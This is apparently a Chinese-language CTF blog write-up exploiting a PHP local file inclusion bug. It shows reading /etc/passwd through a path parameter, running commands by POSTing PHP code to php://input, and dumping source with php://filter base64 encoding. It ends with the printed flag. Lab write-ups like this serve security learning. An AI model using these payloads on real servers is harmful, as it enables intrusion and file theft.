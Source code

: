 <p>include('phpinfo.php');</p>
<p>}</p>
</blockquote><p>于是我在ＵＲＬ链接后加“?path=/etc/passwd”，顺利找到密码文件。。</p><p>接下来考虑，能否直接显示ｆｌａｇ　文件呢？但是我不知道ｆｌａｇ文件的路径。</p><hr><p>做一下信息搜集，phpinfo.php显示版本 5.6.29，nginx/1.10.2</p><p>allow_url_include，显示ｏｎ。据说php5.2之后默认为ｏｆｆ,　这算应用配置错误吗？</p><p>/var/<i>log</i>/<i>nginx/</i>access.<i>log</i></p><p>/var/log/httpd-access.log</p><p>/var/www/log/httpd-access.log  ,尝试找到日志文件来写入命令？但没找到正确的路径</p><div class="image-package">
<img class="uploaded-img" src="http://upload-images.jianshu.io/upload_images/2883590-0dc3040c10bf6407.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240" width="auto" height="auto"><br><div class="image-caption"></div>
</div><p>http://php.net/manual/zh/wrappers.php.php　关于ｐｈｐ封装协议。</p><p>添加参数?path=php://input，并ｐｏｓｔ数据“&lt;?php system('ls');?&gt;”,显示</p><blockquote>
<p>dle345aae.php</p>
<p>index.php</p>
<p>phpinfo.php</p>
</blockquote><p><a href="https://www.jianshu.com/p/52a668889512" target="_blank">参考靶机实验</a>。。。path=php://filter/convert.base64-encode/resource=dle345aae.php</p><blockquote>
<p>PD9waHAgCiRmbGFnPSJmbGFnezliYTE1NTA0LWEwNjgtNDg0Ny1hNmMzLTRiYzgz</p>
<p>ZjBlMWYyY30iOwo=</p>
</blockquote><p>base64解码以后获得ｆｌａｇ</p>
        </div>
      </div>
    </div>
  </body>
</html>
